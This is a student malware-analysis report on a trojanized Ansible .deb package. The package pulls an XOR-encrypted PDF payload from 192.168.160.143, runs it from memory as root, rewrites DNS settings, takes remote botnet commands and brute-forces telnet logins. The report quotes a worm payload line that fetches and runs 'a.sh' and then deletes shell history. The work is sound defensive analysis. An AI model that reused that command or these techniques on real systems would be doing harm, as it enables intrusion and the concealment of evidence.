

# Project 2

# Introduction
It was proposed to us to try to analyze a suspicious code that was found on campus using Reverse engineering techniques that were taught throughout the semester. \
We need to find a response to the following questions:
- **Do we really have malware?**
- **How does the malware work and why a deb is used?**
- **Are other hosts involved?**
- **What is the potential impact on our organization?**

# Strategy

The strategy used in this project was to first understand the overall structure of the file. To do this we used the official deb file to compare to the one given by the professor and try to find any suspicious behaviour such as files and libraries. Only after finding more precise understanding of the file structure and what could be the problem on the deb file that we started using ghidra to staticly uncover the potential malware.

# Analysis
## Deb File
First of all, we started with a simple search of what is a deb and what are their components. This is the relevant information that we found:
- Deb is the file format that Debian uses in its distributions o install, update, and remove software packages on Linux computers.
- This archive has 3 files: 
    + Debian-binary (Containing package format number)
    + Control archive (containing package name, versiondependencies, and maintainer)
    + Data archive(Containing the installable files)

## Integrity check 
As we expected there were more files than needed. A shell script was created (with the help of stack overflow) to check the md5 of entire folders so we could compare them with the official version.

### Control
Control is a file that contains the dependencies needed. seeing that the md5 didn't match the original one  we checked this file which contained two added dependencies **libcurl4-openssl-dev and curl** as we can see on the image below.


This dependencies suggest that the malware needs to communicate with an external server to **extravagate information** or **download extra code** from one.

### Data
The unofficial deb has an extra lib folder that is suspicious since it isn't present on the official. \


Besides that, the user folder has a folder where the hashes don't match with the original one, which is the `usr/bin` and after checking its contents we can see that the folder has an extra file named **ansibled**.


### Ansibled
Finnaly we ran the command strings which can  give us some quick and useful information of what the file is doing.\
Just like what is shown below.


We can see this file is trying to connect to some socket and using the extra libraries mentioned before, we can also see that the file is probably trying to manipulate the processes(**/proc/%d/fd/%d**) on the system and trying to create files on ram(**memfd_create**).

## Ansibled analysis with ghidra
 
The code flow is based on signal handlers and structures. The structure "DAT_00104190" is used as a global variable and its value determines whether the code will curl or execute the pdf.  The code then enters an infinite loop of sleeps until it detects a pdf file, at which point it executes the ReadFile functions.

The main function also executes a thread that listens for incoming connections on a port, reads the data and returns "Authentication verification failed" closing the File Descriptor sent by the connection.

It is unclear why the file "ansibled.lock" is deleted at the beginning of the code. It is possible that this is a check to determine if the system is infected, which may be used later by the virus.

### Encrypt
A function started at `0x001016da` that XOR's a second argument with the third and stores the result in the first.



### Singal handler
On memory address `00101b37`is a function that will be the handler of a signal.


This function points to two others FUN_00101758 and FUN_00101a07.

#### FUN_00101758
At `00101758` the function decodes two strings,using the encrypt function:
-  From `"m6/2m%7+&\'l2&$` to `/tmp/guide.pdf`
-  From `*662xmms{plstzlstrlsvqm%7+&\'l2&$` to `http://192.168.160.143/guide.pdf`

After decoding the strings it runs the following code.
```c
  local_10 = curl_easy_init();
  if (local_10 != 0) {
    local_18 = fopen(local_a8,"wb");
    local_1c = 0x2712;
    curl_easy_setopt(local_10,0x2712,local_68);
    local_20 = 0x4e2b;
    curl_easy_setopt(local_10,0x4e2b,0);
    local_24 = 0x2711;
    curl_easy_setopt(local_10,0x2711,local_18);
    local_28 = curl_easy_perform(local_10);
    curl_easy_cleanup(local_10);
    if (local_28 != 0) {
      unlink(local_a8);
    }
    fclose(local_18);
  }
```

After a quick search we've found this example at [curl](https://curl.se/libcurl/c/curl_easy_init.html) that looks like the code shown above.


With the all evidence above we can see that this code is doing curl of a PDF file. \
We curled the url of the pdf to see what it was and got the pdf **"500 comandos de Linux explicados"**. 
Initially, we considered the possibility that it might be a **Polyglot**. To investigate we started checking the hash and size of the one curled and with a similar pdf available online. \
Upon the comparison shown below, we concluded they didn't match. The size disparity also suggests that the pdf contains extra information, suporting our speculation that it is a **polyglot**.

- Online size: 1527251

    

- Curled size: 1592968

    


#### FUN_00101a07 -> ReadFile
This is the second function of the handler, it is ran after the pdf is donwloaded. It starts by decrypting the PDF and proceeds to execute the decrypted code contained within the PDF.

##### FUN_001019b4 -> File decription
This function serves the purpose of decrypting the PDF file to reveal the contents of the malicious code. It takes a pointer, a size, and a byte as inputs. \
The function then XORs byte by byte with the specified input byte.


##### FUN_00101870 -> RunSecretCode
This code works right after the pdf gets decrypted it copies the pdf to **RAM** with the name found on "0x64656c6269736e61". Then it loads the pdf as a library and looks for the symbol contained on "&DAT_001020d3" that is "RUN". After knowing the address of that symbol it sends the code to run from there.


## PDF analysis
We created a function to decrypt the PDF. Following this, this we opened ghidra for analysis, has was mentioned the initial function executed is the Run function, so we started our analysis from there.


### Run
This function initially creates a file called "ansibled.lock" in the /tmp directory. However, this file is later deleted in the "ansibled" file. It appears that the deletion of the "ansibled.lock" file in the beginning of the function may be a precaution to prevent issues or data overwriting if the malware is executed multiple times. This ensures that the file is not recreated or manipulated if the malware is run again.

### Proc
#### Change Permissions
At the beginning of the pdf, the program changes its path to `/` and the uid and effective uid to root as seen in the following snippet of code.
```c
  chdir("/");
  setuid(0);
  seteuid(0);
```
#### initConnection
This function checks the sock state, adds one to the list of the number of servers goes to the structure CommService to get the string "192.168.160.143:12345", extracts the port from the IP, and creates a socket IPV4. Using those parameters calls ConnectTimeout.

#### connectTimout
This function tries to connect to the IP and port specified in a given timeframe.

#### getEndianness
This function always returns "Little".

#### getBuild
This always returns "x86_64".

#### UpdateNameSvrs
This function writes in the "ect/resolve.conf" file the  line "nameserver 193.136.172.20\nnameserver 8.8.8.8\n" changing the usual DNS server, probably making an attacker-controlled machine the default DNS.

#### RecvLine
Receives messages byte by byte on the socket and stores them in the buffer, returns the size of the data or -1 if it fails.

#### ProcessCmd
 This Function receives as 1st parameter the length of the cmd and the second parameter is the actual cmd then it uses if clauses to determine what to execute. It is important to notice that in the end of some commands the attacker executes `ClearHistory` to clear all the commands done previosly trying to hide its actions.
+  TELNET
    + ON - This is creating a process to do a **Telnet Scanner**.
    + OFF - Killing the Telnet Scanner.
    + LOAD - Loading a scanner created it gives.
+ PING - returns as soon as it enters the if.
+ PY
    + INSTALL - This is installing a tool called python-paramiko which is an implementation of ssh2 to connect remotely to devices. It also downloaded the file `scan.py` from ``http://192.168.160.143/scan.py``We tried to see the contents of the file but we weren't able to.
    
    
    + UPDATING - Removes the file scan.py from the device.
    + LOAD - Loads and runs the scan.py with extra parameters just like a random number.
+ HTTP/UDP/TCP/STD - Send an HTTP/UDP/TCP/STD request with certain parameters that we are unable to discover without dynamic analysis.
+ KILL - This kills all processes created.
+ UPDATE - Destroys Temporary files like logs and history.

#### Telnet Scanner
We are uncertain of what this telnet Scanner is, the code is too dense, and many arithmetic operations are done to maintain context and perceive what is done.


Although we made some assumptions with some pieces of code, strings, functions, and messages as well as the whole context of the malware.
- This code is based on a state machine where if the code on the first state runs successfully then with the function advance_telstate() it runs the next state, and if not reset_telstate() restarts the state machine to state 0.
- The first 7(0-6) states seem to try to connect with a telnet service of a random public IP address.
- Then it tries to brute-force the login credentials of the telnet. 
- When it's successful it sends to the attacker's server the information (IP, port, username, and password)
- Then it sends the following payload to the connected machines `cd /tmp;busybox curl 192.168.160.143/a.sh; chmod 777; sh a.sh;rm -rf ~/.bash_history `.

We tried to curl the `a.sh` to understand it but we just got the following error.

\
We suppose that this a.sh is something similar to the malware found in ansibled, infecting the machine and giving the attacker a chance to remotely connect to the machine and then the machine helping spread the virus.


### How it works

The `proc` function initiates by gathering essential system settings before executing the malicious code, using previously defined functions. It manages the execution flow by first waiting for all child processes to terminate and subsequently freeing the associated memory. This memory cleanup continues until it stops receiving the 'PING' command. 
After if the next command encountered is a 'DUP' command, the program stops with `exit(0)`.

The subsequent segment of the function focuses on responding to received commands using the `processCmd` function. Before processing, the function meticulously parses the received command, eliminating unnecessary spaces, removing `\n`, and converting tokens to uppercase. These tokens are then organized into an array and passed to `processCmd` for further handling.

# Conclusions
Firstly it downloads a pdf file from "192.168.160.143" that contains code, then it decrypts it to RAM so it's not found easily by antivirus and runs from there. In RAM, it changes to the root directory, changes its own permissions to root, changes the default DNS server, and then can execute different commands depending on what commands are given on port "12345" from the same previous IP from a connection established earlier. Those commands can range from protocols TCP/ICMP/HTTP to Telnet scanners, to download and run a python script that most likely based on packages downloaded will let the attacker remotely access the infected machine.

## Response to initial questions
- **Do we really have malware?**\
Yes, although we only have a vague idea of what the Telnet scanner, the python script and the bash script do, the fact that it changes the DNS server to the infected machine(To then probably redirect to a fake website and steal credentials/cookies). Also due to the nature of the Python packages installed, we can also deduce that the Python script will be used to connect remotely to the infected machine by the attacker.
- **How does the malware work and why a deb is used?**\
This code is a piece of malware put into an update packet of Ansible. 

    + **Legitimacy**: Since deb packages are widely used for software distribution in Linux environments, they may appear legitimate to users and system administrators increasing the chance of installation.
    
    + **Integration with Package Managers**: Linux package managers like apt make it simple for users to install and manage deb packages.

    + **Potential for Root Access**: If the malware exploits system vulnerabilities or escalates privileges, installing it through a deb package could grant the attacker root access or other elevated privileges.

    + **Persistence**: Malware distributed via deb packages can be challenging to detect and remove once installed since the malware can have root access it can hide additional malware files on any point of the file system using ACL flags to difficult.

- **Are other hosts involved?**\
It is highly probable that the attacker has control over the machine with the IP "192.168.160.143" within the network. This IP plays a crucial role in various operations, such as downloading the PDF, receiving commands to execute with ProccessCMD, and downloading the Python script.
Furthermore, the IP "193.136.172.20" is modified to serve as the default DNS, suggesting that it is a machine controlled by the attacker within the network.
Also as mentioned before if the malware has indeed worm-like behaviors it will affect multiple machines inside the network.
- **What is the potential impact on our organization?**\
If the malware is correctly executed in other words, not caught by Firewalls, antivirus, or similar software, this malware could potentially:
    - Exposure of Personal and Credit Information: The malware can intercept sensitive data such as usernames, passwords, credit card numbers, and other personal information entered by users on legitimate websites by manipulating DNS.
    - Credential Theft: With shell access to the victims machine, the malware can extract stored credentials like usernames and passwords, enabling unauthorized access to various accounts and systems.
    - Denial of Service (DoS): The malware can launch DoS attacks, disrupting the availability of services, websites, or networks, leading to financial losses and operational disruptions for affected organizations.
    - Hardware damage: By using a panoply of attacks is possible to cause irreversible damage to the hardware of the infected machines.
    - Stealing Private Certificates: Private certificates are essential for secure communication between servers and clients. By stealing these certificates, the malware can facilitate man-in-the-middle attacks, intercepting and tampering with sensitive data exchanged between users and servers.